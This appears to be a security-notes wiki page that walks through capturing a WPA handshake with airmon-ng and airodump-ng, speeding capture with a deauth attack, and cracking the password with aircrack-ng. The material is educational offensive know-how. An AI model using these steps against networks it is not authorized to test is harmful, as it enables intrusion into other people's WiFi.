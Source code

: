 # Introduction
When connecting a device to a [WPA](../../Networking/Protocols/WLAN%20(IEEE%20802.11)/WiFi%20Protected%20Access%20(WPA).md) WiFi network, the device and the access point go through the process of a [4-way handshake](../../Networking/Protocols/WLAN%20(IEEE%20802.11)/Authentication%20&%20Association.md). During this time, the hash of the password is broadcasted and if we can capture this hash, we can also attempt to crack it.

# Capturing the Handshake
You will first need to put your adapter into [monitor mode](index.md):
```
sudo airmon-ng start <dev>
```

![](Resources/Images/WIFI_airmon_start.png)

Next, you should listen for the available access points by using
```
sudo airodump-ng <dev>
```

![](Resources/Images/WIFI_airodump_monitor_all.png)

Once you have identified the network you want to attack, you can make `airodump` specifically listening for it by providing a MAC address (`--bssid`) and a channel (`-c`). You will also want to write the capture to a file (`--write <filename>`), so that it may later be cracked with `aircrack-ng`:
```
sudo airodump-ng --bssid 50:D4:F7:95:CE:13 -c 11 --write PwnMe
```

![](Resources/Images/WIFI_airodump_monitor_single.png)

Now, `airodump` is listening for the specified access point. Under the `STATION` tab, you can see all devices which are connected to the network. 

You now have to wait for someone new to connect to the target network or to reconnect in order to capture the handshake. If you are too impatient, however, there is a way to speed this process up. A [deauth attack](Deauth%20Attack.md) may be used, giving us the handshake:

![](Resources/Images/WIFI_handshake_captured.png)

![](Resources/Images/WIFI_airodump_list_capture_files.png)

The hash can now be cracked using `aircrack-ng`:
```
aircrack-ng <capture> -w <wordlist>
```

![](Resources/Images/WIFI_aircrack.png)

Boom! We successfully cracked the very difficult-to-guess password of... `password`.

Remember to stop your adapter's monitor mode or you will not be able to use it normally:

![](Resources/Images/WIFI_airmon_stop.png)

